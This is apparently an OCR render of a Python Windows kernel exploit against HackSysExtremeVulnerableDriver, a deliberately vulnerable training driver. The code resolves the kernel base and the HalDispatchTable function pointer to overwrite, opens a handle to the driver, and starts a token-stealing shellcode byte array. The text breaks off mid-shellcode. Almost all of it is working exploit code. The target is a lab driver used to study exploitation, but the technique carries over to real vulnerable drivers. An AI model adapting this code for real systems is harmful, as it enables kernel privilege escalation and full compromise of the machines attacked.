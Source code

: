 ```python
            if kernel_base[-1] == "L":
                kernel_base = kernel_base[:-1]
                print("[*] Kernel Base: {}".format(kernel_base))
                return image_name, kernel_base
        counter += 284
 
 
def hal_calc(image_name, kernel_base):
 
    # grab a handle to ntkrnl
    kern_handle = kernel32.LoadLibraryA(image_name)
    if kern_handle == None:
        print("[!] LoadLibrary failed to retrieve handle to kernel with error: {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Kernel Handle: {}".format(hex(kern_handle)))
 
    # use our handle to get the address of the HalDispatchTable in userland
    userland_hal = kernel32.GetProcAddress(kern_handle, "HalDispatchTable")
    if userland_hal == None:
        print("[!] GetProcAddress failed to retrieve HDT address with error: {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Userland HalDispatchTable Address: {}".format(hex(userland_hal)))
 
    # using FuzzySec's powershell script as guide for math: $HalDispatchTable = $HALUserLand.ToInt32() - $KernelHanle + $KernelBase
    kernel_hal = userland_hal - kern_handle + int(kernel_base, 16)
    printable_hal = hex(kernel_hal)
    if printable_hal[-1] == "L":
        printable_hal = printable_hal[:-1]
    print("[*] Kernel HalDispatchTable Address: {}".format(printable_hal))
 
    # we want hal + 0x4, that's the function pointer we want to overwrite
    target_hal = kernel_hal + 0x4
    print("[*] Target HalDispatchTable Function Pointer at: {}".format(hex(target_hal)[:-1]))
 
    return target_hal
 
def exploit(target_hal):
 
    hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        0xC0000000,
        0,
        None,
        0x3,
        0,
        None)
   
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))
 
    shellcode = bytearray(
        "\x60"
        "\x64\xA1\x24\x01\x00\x00"
        "\x8B\x40\x50"
        "\x89\xC1"
        "\x8B\x98\xF8\x00\x00\x00"
```